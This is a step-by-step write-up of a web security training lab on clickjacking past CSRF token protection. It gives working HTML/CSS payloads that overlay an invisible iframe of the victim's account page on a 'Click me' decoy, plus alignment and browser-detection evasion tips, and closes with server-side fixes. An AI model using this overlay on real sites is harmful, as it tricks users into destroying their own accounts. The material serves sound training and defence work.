

---

**Difficulty:** 🟢 Apprentice

**Goal:**

- 🔍 Understand how clickjacking bypasses CSRF protection
- 🖼️ Create invisible iframe overlay
- 🎯 Position decoy element over "Delete account" button
- 👤 Trick user into deleting their account
- 🎉 Complete lab

---

## 🧠 **Concept Recap**

> **Clickjacking** is a UI-based attack where users are tricked into clicking on hidden elements by overlaying invisible iframes over decoy content. Even when CSRF tokens protect actions, clickjacking bypasses this protection because the legitimate page (with valid CSRF token) is loaded in the iframe - the user's click triggers the real form submission.

### 📊 **Why CSRF Protection Doesn't Stop Clickjacking**

**CSRF Protection:**

```
Normal CSRF Attack (Blocked):
1. Attacker creates fake form with guessed values
2. Form submitted cross-origin
3. CSRF token missing or invalid
4. ❌ Request BLOCKED

Clickjacking Attack (Bypasses CSRF):
1. Attacker loads REAL page in iframe
2. Real page includes valid CSRF token
3. User clicks through transparent overlay
4. Real form submits with valid token
5. ✅ Request SUCCEEDS
```

**Key Insight:**

```
CSRF tokens validate that requests come from legitimate forms.
Clickjacking USES the legitimate form - just hides it!

The attack chain:
└── Load real page in iframe (has valid CSRF token)
    └── Make iframe invisible (opacity: 0.0001)
        └── Position decoy content underneath
            └── User clicks decoy, actually clicks iframe
                └── Real button with real CSRF token clicked
                    └── CSRF protection bypassed!
```

---
---

## 🛠️ **Step-by-Step Attack**

---

### 🔧 **Step 1 - Access Lab**

1. 🌐 Click **"Access the lab"**
2. 🔑 Click **"Go to exploit server"** (note the URL)
3. 🌐 Go back and click **"My account"**
4. 🔐 Log in with credentials: **wiener:peter**

---

### 🔍 **Step 2 - Analyze Target Functionality**

**After logging in, observe the account page:**

```r
Account Page Contents:
├── Username display: "wiener"
├── Email update form (with CSRF token)
└── Delete account button ⭐ (TARGET!)

Delete Account Form:
<form id="delete-account-form" action="/my-account/delete" method="POST">
    <input type="hidden" name="csrf" value="ABC123...XYZ">
    <button type="submit">Delete account</button>
</form>

Key observations:
✅ Protected by CSRF token
✅ Requires authentication (user must be logged in)
✅ No framebusting protection
💥 Vulnerable to clickjacking!
```

---

### 🎯 **Step 3 - Go to Exploit Server**

1. 🖱️ Click **"Go to exploit server"**
2. 📝 You'll see a form with **Body** field

**Exploit server structure:**

```
The exploit server hosts malicious HTML
└── Victim will visit this page
    └── Page contains invisible iframe + decoy
        └── When victim clicks, account deleted!
```

---

### 🖼️ **Step 4 - Create Basic HTML Template**

**Paste this template into the Body field:**

```html
<style>
    iframe {
        position: relative;
        width: 700px;
        height: 600px;
        opacity: 0.0001;
        z-index: 2;
    }
    div {
        position: absolute;
        top: 495px;
        left: 60px;
        z-index: 1;
    }
</style>
<div>Test me</div>
<iframe src="https://YOUR-LAB-ID.web-security-academy.net/my-account"></iframe>
```

**Replace YOUR-LAB-ID with your actual lab ID!**

---

### 🔧 **Step 5 - Understanding the CSS Properties**

**Breaking down the exploit:**

```r
iframe {
    position: relative;     /* Can be positioned */
    width: 700px;          /* Size of iframe */
    height: 600px;
    opacity: 0.0001;       /* Nearly invisible! */
    z-index: 2;            /* On top layer */
}

div {
    position: absolute;     /* Absolute positioning */
    top: 495px;            /* Distance from top */
    left: 60px;            /* Distance from left */
    z-index: 1;            /* Behind the iframe */
}
```

**Visual layers:**

```
Layer 2 (z-index: 2) - Invisible iframe with real page
     ↑ User clicks here but doesn't see it
     |
Layer 1 (z-index: 1) - Visible decoy text
     ↑ User sees "Test me" here
```

**Why it works:**

```
1. Iframe is on top (z-index: 2)
2. Iframe is transparent (opacity: 0.0001)
3. User sees only the div underneath (z-index: 1)
4. When user clicks div location, they actually click iframe
5. Click registers on the real "Delete account" button!
```

---

### 🎨 **Step 6 - Adjust Positioning (Testing Phase)**

**First, make iframe VISIBLE for testing:**

```html
<style>
    iframe {
        position: relative;
        width: 700px;
        height: 600px;
        opacity: 0.3;        /* Changed to 0.3 (30% visible) */
        z-index: 2;
    }
    div {
        position: absolute;
        top: 495px;          /* Adjust these values */
        left: 60px;          /* to align with button */
        z-index: 1;
    }
</style>
<div>Test me</div>
<iframe src="https://YOUR-LAB-ID.web-security-academy.net/my-account"></iframe>
```

1. 📝 Click **"Store"** to save
2. 👁️ Click **"View exploit"** to open in new tab

---

### 🎯 **Step 7 - Find Correct Position**

**What you should see:**

```
When viewing exploit with opacity: 0.3:
├── You can see the account page through transparency
├── You can see your "Test me" text
└── Goal: Position "Test me" exactly over "Delete account" button
```

**Positioning strategy:**

```
If "Test me" is:
├── Too high → Increase top value (e.g., 495px → 510px)
├── Too low → Decrease top value (e.g., 495px → 480px)
├── Too far right → Decrease left value (e.g., 60px → 50px)
├── Too far left → Increase left value (e.g., 60px → 70px)
```

**Common working values:**

```css
div {
    position: absolute;
    top: 495px;      /* Usually 490-510px works */
    left: 60px;      /* Usually 55-65px works */
    z-index: 1;
}
```

**Testing process:**

```
1. Set opacity: 0.3 (to see iframe)
2. Adjust top/left values
3. Store and view exploit
4. Hover over "Test me" - cursor should change to pointer over button
5. Repeat until perfectly aligned
6. DO NOT click the button yourself! (Will break lab)
```

---

### ✅ **Step 8 - Finalize Exploit**

**Once positioned correctly:**

1. Change opacity back to nearly invisible: `opacity: 0.0001`
2. Change text from "Test me" to "Click me"
3. **Store** the exploit

**Final exploit code:**

```html
<style>
    iframe {
        position: relative;
        width: 700px;
        height: 600px;
        opacity: 0.0001;       /* Nearly invisible */
        z-index: 2;
    }
    div {
        position: absolute;
        top: 495px;            /* Your adjusted value */
        left: 60px;            /* Your adjusted value */
        z-index: 1;
    }
</style>
<div>Click me</div>
<iframe src="https://0a1b2c3d4e5f6789.web-security-academy.net/my-account"></iframe>
```

---

### 🚀 **Step 9 - Deliver Exploit to Victim**

1. ✅ Verify exploit is stored
2. 🎯 Click **"Deliver exploit to victim"**
3. ⏳ Wait a few seconds

---

### 🎉 **Step 10 - Lab Completion**

**What happens:**

```
Victim's browser:
1. Loads your exploit page
2. Sees "Click me" text
3. Iframe loads /my-account (victim is logged in)
4. Iframe is invisible (opacity: 0.0001)
5. Victim clicks "Click me"
6. Actually clicks "Delete account" button in iframe
7. Form submits with valid CSRF token
8. Account deleted!
```

**Lab completion:**

```
System checks:
├── Exploit delivered to victim? ✓
├── Victim clicked overlay? ✓
├── Delete account form submitted? ✓
└── Account deleted successfully? ✓

Result: LAB SOLVED!
```

**Completion banner:**

```
┌─────────────────────────────────┐
│  ✅ Congratulations!            │
│                                 │
│  You successfully exploited     │
│  clickjacking to bypass CSRF    │
│  protection and delete the      │
│  victim's account.              │
│                                 │
│  Lab: Basic clickjacking with   │
│       CSRF token protection     │
│  Status: SOLVED ✓               │
└─────────────────────────────────┘
```

---

## 🔗 **Complete Attack Chain**

```r
Step 1: Access lab and log in with wiener:peter
         ↓
Step 2: Analyze delete account functionality
         (Protected by CSRF token)
         ↓
Step 3: Go to exploit server
         ↓
Step 4: Create HTML with iframe + decoy overlay
         ↓
Step 5: Set iframe opacity to 0.3 (for testing)
         ↓
Step 6: Adjust top/left to align "Test me" with button
         ↓
Step 7: Verify alignment (hover test)
         ↓
Step 8: Set opacity to 0.0001 (make invisible)
         ↓
Step 9: Change text to "Click me"
         ↓
Step 10: Store exploit
         ↓
Step 11: Deliver exploit to victim
         ↓
Step 12: Victim clicks, account deleted! 🎉
```

---

## ⚙️ **Understanding the Vulnerability**

### **Why CSRF Tokens Don't Prevent Clickjacking**

```js
# CSRF Token Protection (Server-side)

@app.route('/my-account/delete', methods=['POST'])
@login_required
def delete_account():
    csrf_token = request.form.get('csrf')
    
    # Validate CSRF token
    if not validate_csrf_token(csrf_token):
        return "Invalid CSRF token", 403
    
    # Token is valid - delete account
    delete_user_account(current_user.id)
    return redirect('/login')

# This SEEMS secure because:
# ✅ Requires valid CSRF token
# ✅ Token is session-specific
# ✅ Token changes for each form load
#
# BUT clickjacking bypasses this because:
# ❌ Attacker loads the REAL form (which has valid token)
# ❌ User's click submits the REAL form
# ❌ CSRF token is valid - it came from the real page!
```

**The vulnerability:**

```
The page doesn't prevent being framed!

Vulnerable code:
└── No X-Frame-Options header
    └── No Content-Security-Policy frame-ancestors
        └── Page can be embedded in iframe
            └── Clickjacking possible!
```

---

### **How the Exploit Works**

**HTML Structure:**

```r
<div style="position: absolute; top: 495px; left: 60px; z-index: 1;">
    Click me
</div>

<iframe 
    src="victim-site.com/my-account" 
    style="opacity: 0.0001; z-index: 2;">
    <!-- Real delete button is here, with valid CSRF token -->
</iframe>
```

**Visual representation:**

```
What attacker sees:
┌─────────────────────────────────┐
│                                 │
│  [Transparent iframe with       │
│   delete button at position     │
│   top:495px, left:60px]         │
│                                 │
│         Click me  ← Visible     │
│                     decoy text  │
└─────────────────────────────────┘

What victim sees:
┌─────────────────────────────────┐
│                                 │
│                                 │
│                                 │
│                                 │
│         Click me  ← Only this!  │
│                                 │
└─────────────────────────────────┘

When victim clicks:
└── Browser registers click at coordinates (60px, 495px)
    └── Iframe is on top (z-index: 2)
        └── Click goes to iframe content
            └── "Delete account" button clicked!
                └── Form submits with valid CSRF token
```

---

## 🎯 **Quick Reference**

### **Common CSS Property Values**

```r
/* Iframe Properties */
width: 700px;           /* Typical values: 500-1000px */
height: 600px;          /* Typical values: 400-800px */
opacity: 0.0001;        /* 0.0001 to 0.001 (nearly invisible) */
z-index: 2;             /* Must be higher than decoy */

/* Decoy Properties */
top: 495px;             /* Varies by target - adjust! */
left: 60px;             /* Varies by target - adjust! */
z-index: 1;             /* Must be lower than iframe */
```

---

### **Positioning Adjustment Guide**

```r
Target button position: (X, Y)

Your decoy is:
├── Too high → Increase top (e.g., 480px → 500px)
├── Too low → Decrease top (e.g., 500px → 480px)
├── Too far left → Increase left (e.g., 50px → 70px)
├── Too far right → Decrease left (e.g., 70px → 50px)

Fine-tuning:
└── Adjust in increments of 5-10px
    └── Store and view after each change
        └── Use hover test to verify alignment
```

---

### **Troubleshooting**

```r
Problem: Iframe shows login page
Solution: Make sure YOU are logged in before testing
         The iframe inherits your session cookies

Problem: "Click me" not visible
Solution: Check z-index - div should be 1, iframe should be 2

Problem: Button not clickable
Solution: iframe z-index must be higher than div z-index

Problem: Lab not solving
Solution: Ensure opacity is very low (0.0001, not 0.3)
         Ensure text says "Click me" not "Test me"
         Verify alignment is correct

Problem: Can't find right position
Solution: Start with opacity: 0.5 for easier viewing
         Use developer tools to inspect coordinates
         Adjust in small increments (5-10px)
```

---

## 🔬 **Advanced Concepts**

### **Opacity Values and Detection**

```r
// Some browsers have clickjacking protection

// Chrome 76+ detects iframes with very low opacity
opacity: 0.0000001  // Too low - might trigger protection
opacity: 0.0001     // Good - bypasses protection ✓
opacity: 0.001      // Also works
opacity: 0.01       // Still mostly invisible

// Firefox doesn't have threshold detection
// Any opacity value works

// Best practice: Use 0.0001
```

---

### **Z-Index and Layer Stacking**

```r
/* Understanding z-index */

/* Decoy layer (visible) */
div {
    z-index: 1;    /* Bottom layer */
}

/* Attack iframe (invisible) */
iframe {
    z-index: 2;    /* Top layer */
}

/* 
When user clicks:
1. Browser checks top layer first (z-index: 2)
2. Iframe captures the click
3. Click goes to iframe content
4. Decoy layer (z-index: 1) never receives click
*/

/* Multiple layers example */
.background {
    z-index: 0;    /* Furthest back */
}
.decoy {
    z-index: 1;    /* Middle */
}
.iframe {
    z-index: 2;    /* Front (captures clicks) */
}
```

---

### **Position Types**

```r
/* position: relative */
iframe {
    position: relative;
    /* Positioned relative to normal position */
    /* Still in document flow */
}

/* position: absolute */
div {
    position: absolute;
    /* Positioned relative to nearest positioned ancestor */
    /* Removed from document flow */
    top: 495px;
    left: 60px;
}

/* position: fixed */
.overlay {
    position: fixed;
    /* Positioned relative to viewport */
    /* Stays in place when scrolling */
}
```

---
---

## 🛡️ **How to Fix (Secure Code)**

### **Fix 1: X-Frame-Options Header**

```python
# ✅ SECURE VERSION - Add X-Frame-Options

from flask import Flask, make_response

app = Flask(__name__)

@app.route('/my-account')
@login_required
def my_account():
    response = make_response(render_template('account.html'))
    
    # Prevent framing
    response.headers['X-Frame-Options'] = 'DENY'
    # Or allow only same origin:
    # response.headers['X-Frame-Options'] = 'SAMEORIGIN'
    
    return response

# Benefits:
# ✅ Page cannot be framed
# ✅ Clickjacking prevented
# ✅ Simple to implement
```

---

### **Fix 2: Content Security Policy**

```python
# ✅ SECURE VERSION - CSP frame-ancestors

@app.route('/my-account')
@login_required
def my_account():
    response = make_response(render_template('account.html'))
    
    # Modern approach - more flexible than X-Frame-Options
    response.headers['Content-Security-Policy'] = "frame-ancestors 'none'"
    # Or allow specific origins:
    # response.headers['Content-Security-Policy'] = "frame-ancestors 'self' https://trusted.com"
    
    return response

# Benefits:
# ✅ More powerful than X-Frame-Options
# ✅ Can whitelist specific domains
# ✅ Better browser support for modern features
```

---

### **Fix 3: Frame-Busting JavaScript (Legacy)**

```html
<!-- ⚠️ LEGACY APPROACH - Not recommended -->
<script>
if (top.location != self.location) {
    // Page is in an iframe
    top.location = self.location;  // Break out of iframe
}
</script>

<!-- Better version -->
<script>
if (top !== self) {
    top.location.href = self.location.href;
}
</script>

<!-- Why not recommended:
     ❌ Can be bypassed with sandbox attribute
     ❌ Can be bypassed with 204 No Content
     ❌ Use headers instead!
-->
```

---

### **Fix 4: Require Re-Authentication**

```python
# ✅ BEST PRACTICE - Require password for sensitive actions

@app.route('/my-account/delete', methods=['POST'])
@login_required
def delete_account():
    csrf_token = request.form.get('csrf')
    password = request.form.get('password')  # Require password!
    
    # Validate CSRF token
    if not validate_csrf_token(csrf_token):
        return "Invalid CSRF token", 403
    
    # Validate password
    if not verify_password(current_user, password):
        return "Invalid password", 403
    
    # Both checks pass - delete account
    delete_user_account(current_user.id)
    return redirect('/login')

# Benefits:
# ✅ User must type password
# ✅ Clickjacking cannot enter text
# ✅ Adds extra layer of protection
# ✅ Works alongside frame prevention
```

---
